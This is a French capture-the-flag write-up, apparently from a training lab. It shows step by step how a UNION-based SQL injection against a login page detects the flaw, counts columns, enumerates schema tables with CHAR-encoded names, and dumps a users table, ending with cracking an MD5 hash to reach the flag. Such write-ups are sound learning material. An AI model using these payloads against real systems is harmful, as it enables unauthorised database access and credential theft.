 Source:,
- https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/

Une injection SQL se produit lorsqu’un utilisateur malveillant communique une entrée qui modifie la requête SQL envoyée par l’application web à la base de données.

1- Détecter la possibilité d'injection 

Ajouter l’une des payload ci-dessous après notre nom d’utilisateur et voir si cela provoque des erreurs ou modifie le comportement de la page : ‘ / « / # / ; / )

    Sur notre site cela affiche bien une erreur et dans l'URL nous avons la requete envoyee: http://192.168.56.102/index.php?page=signin&username=%27&password=&Login=Login#


2- Trouver le nombre de champs

ORDER BY permet de trier le résultat en précisant le(s) champ(s) ainsi que l'ordre (croissant ou décroissant). Mais ORDER BY peut également trier en se référant à la position du champ dans la requête. Si ce champ n'existe pas, la requête renverra une erreur et c'est exactement de cette manière que nous pouvons déterminer le nombre de champs : 1 ORDER BY 2 => Unknown column '3' in 'order clause'

    Il y a donc 2 champs

    Il faut donc que la requête que nous ferons après le mot UNION comporte très exactement 3 champs.

    1 UNION SELECT 1, 2
    1 UNION SELECT 1, database()
        Cela affiche: Member_Sql_Injection
    1 UNION SELECT 1

    1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)
        Cela affiche: users

    1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110) AND TABLE_NAME = CHAR(117,115,101,114,115)
        Cela affiche: me, user_id, first_name, last_name, town, country, planet, Commentaire, countersign

    1 UNION SELECT 1, user_id FROM users 
    1 UNION SELECT 1, first_name FROM users (surname flag au 5)
    1 UNION SELECT 1, last_name FROM users (surname GetThe au 5)
    1 UNION SELECT 1, town FROM users (surname 42)
    1 UNION SELECT 1, country FROM users (surname 42)
    1 UNION SELECT 1, Commentaire FROM users (surname Decrypt this password -> then lower all the char. Sh256 on it and it's good !)
    1 UNION SELECT 1, countersign FROM users (prendre le 5eme)

    md5 decrypt: 5ff9d0165b4f92b14994e5c685cdce28 : FortyTwo
    sha256:9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646